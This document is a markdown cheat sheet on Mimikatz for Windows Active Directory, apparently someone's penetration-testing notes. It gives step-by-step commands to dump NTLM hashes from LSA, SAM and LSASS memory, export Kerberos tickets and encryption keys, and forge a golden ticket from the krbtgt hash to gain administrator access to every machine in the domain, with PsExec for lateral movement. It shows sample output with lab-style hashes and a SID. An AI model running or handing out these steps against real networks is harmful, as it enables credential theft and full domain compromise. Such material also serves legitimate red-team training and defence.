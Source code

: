 #Inside #Windows
Mimikatz is a very popular tool mainly used for dumping user credentials inside of active directory network.
# Dumping NTLM hashes
Firstly we need to open it.
```Powershell
./mimikatz.exe
```
Then we need to make sure we are running as admin (`Privilege '20' ok`)
```mimikatz
privilege::debug
```
And we can now use 
```mimikatz
lsadump::lsa /patch
```

# Golden Ticket Attacks
Firstly we will first dump the hash and sid of the `krbtgt` user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on a network
```mimikatz
lsadump::lsa /inject /name:krbtgt
```
From here we will need to take note of the `Domain` and the `NTLM`, which will look something like

---
Domain : CONTROLLER / **S-1-5-21-849420856-2351964222-986696166** 

RID  : 000001f6 (502)
User : krbtgt

 \* Primary
    NTLM : **5508500012cc005cf7082a9a89ebdfdf**

---
Then we can create a golden ticket, filling each field
```mimikatz
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```
And then use it to access another machine. This will open a new command prompt with elevated privileges to all machines
```mimikatz
misc::cmd
```
Now we can access other machines, our cmd will have access to all other machines on the network
```Cmd
dir \\Destkop-1\c$

PsExec.exe \\Desktop-1 cmd.exe
```

# Extracting NTLM hashes from local SAM
This method will only allow us to get hashes **from local users** on the machine. **No domain user's** hashes will be available.
```mimikatz
privilege::debug
token::elevate
lsadump::sam
```

# Extracting NTLM hashes from LSASS memory
This method will let us extract any NTLM hash **from local users** and **any domain user that has recently logged** onto the machine
```mimikatz
privilege::debug
token::elevate
sekurlsa::msv
```


# Extracting Kerberos tickets and Session Keys from LSASS memory
The process usually requires us to have **SYSYEM** privileges on the attacked machine
```mimikatz
privilege::debug
sekurlsa::tickets /export
```
Note that we need access to both the ticket and its corresponding Session Key.

# Extracting Kerberos Encryption keys from LSASS memory
We can obtain the Kerberos encryption keys from memory by using
```mimikatz
privilege::debug
sekurlsa::ekeys
```
